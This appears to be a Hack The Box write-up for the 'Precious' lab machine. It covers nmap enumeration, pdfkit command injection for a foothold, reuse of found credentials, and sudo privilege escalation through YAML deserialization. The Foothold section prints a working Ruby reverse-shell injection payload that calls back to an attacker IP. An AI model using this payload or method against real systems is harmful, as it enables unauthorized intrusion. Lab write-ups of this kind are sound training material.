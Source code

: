 ```yaml
---
title: "[HTB] Machine: Precious"
date: 2023-05-20
description: "[HTB] Machine: Precious"
menu:
  sidebar:
    name: "[HTB] Machine: Precious"
    identifier: htb-machine-precious
    parent: htb-machines-linux
    weight: 10
hero: images/precious.png
tags: ["HTB"]
---
```


# Precious
## Enumeration
- ```Nmap```
```
┌──(kali㉿kali)-[~]
└─$ nmap -Pn -sC -sV -T4 10.10.11.189         
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-16 11:09 EDT
Nmap scan report for 10.10.11.189 (10.10.11.189)
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.35 seconds
```
- Let's check port ```80```

![](./images/1.png)

- It's a service that converts Web Pages to PDF
  - Let's supply anything and see what it returns
  - I am running Burp Suite in the background
- So after supplying any url, we receive a pdf
  - So I tried figuring out the backend service, or library that was responsible for conversion
  - I took the response data from Burp Suite and used [Cyber Chef](https://gchq.github.io/CyberChef/) to decode it

![](./images/2.png)

- We see the package and it's version
  - After a little bit of googling

![](./images/3.png)

- Let's test it

![](./images/4.png)

- I set up ```tcpdump``` to listen to ICMP
  - Success

![](./images/5.png)

- Let's get a foothold
## Foothold
- I used [revshells.com](https://www.revshells.com/) to create a payload for Ruby (It was revealed in Burp Suite responses and [pdfkit](https://github.com/pdfkit/pdfkit) is a Ruby package)

![](./images/6.png)

```
http://10.10.16.37:8000/index.html?p=#{'%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.16.37",6666))'`'}
```

- Try the payload
  - And We get a reverse shell

![](./images/7.png)

- Now we need to privesc
  - After running the [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
  - We see that we have another user
```
╔══════════╣ Users with console
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash                                                                                                                                                                                            
root:x:0:0:root:/root:/bin/bash
ruby:x:1001:1001::/home/ruby:/bin/bash
```
## User
- After checking the home directory of the ```ruby``` user
  - I found ```henry``` credentials
  - And ```su``` to ```henry```

![](./images/8.png)

- Let's get root
## Root
- The first thing I check is ```sudo``` privileges
  - And we get a result

![](./images/9.png)

- Let's check the file
  - According to the comments, the script loads the list of dependencies from the ```dependencies.yaml``` and compares them to the ones already installed
  
![](./images/10.png)

- After googling
  - We find that there is a [yaml injection](https://snyk.io/blog/finding-yaml-injection-with-snyk-code/)
  - or https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Insecure%20Deserialization/YAML/#pyyaml

![](./images/11.png)

- Check the version

![](./images/12.png)

- So let's try
  - Firstly, it seems like the script searches for ```dependencies.yaml``` file in the directory where we execute the command
  - So we can create ```dependencies.yaml``` anywhere where we have the privileges to do so
  - Copy the payload from the links above

![](./images/13.png)

- Run the command
  - And we get our flag

![](./images/14.png)
